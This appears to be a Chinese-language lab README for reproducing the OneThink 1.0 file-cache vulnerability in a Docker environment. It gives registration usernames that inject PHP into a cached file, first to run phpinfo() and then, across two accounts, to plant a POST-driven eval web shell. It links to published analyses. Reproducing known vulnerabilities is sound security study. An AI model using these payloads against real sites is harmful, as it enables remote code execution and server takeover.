


## 启动环境

```
docker-compose build
docker-compose up -d
```


## 0x01 OneThink1.0文件缓存漏洞

在OneThink的注册页面中的注册用户名为:

```
%0aphpinfo();#
```

，并且用burp抓包将%0a解码


之后用这个用户名登陆，同样抓包将%0a解码，之后访问Runtime/Temp目录下的2bb202459c30a1628513f40ab22fa01a.php，此文件是写死的，所以不怕找不到文件。即可发现phpinfo得以执行


GETSHELL

分别用两个用户名去注册转码登录
```
%0a$a=$_POST[a];#
%0aeval($a);#
```


之后文件的内容就变成了






[OneThink CMS的缓存漏洞的分析](https://ox1234.github.io/2018/07/27/OneThink%20CMS%E7%9A%84%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%86%E6%9E%90/)

[OneThink1.0文件缓存漏洞分析及题目复现](https://www.anquanke.com/post/id/152584)


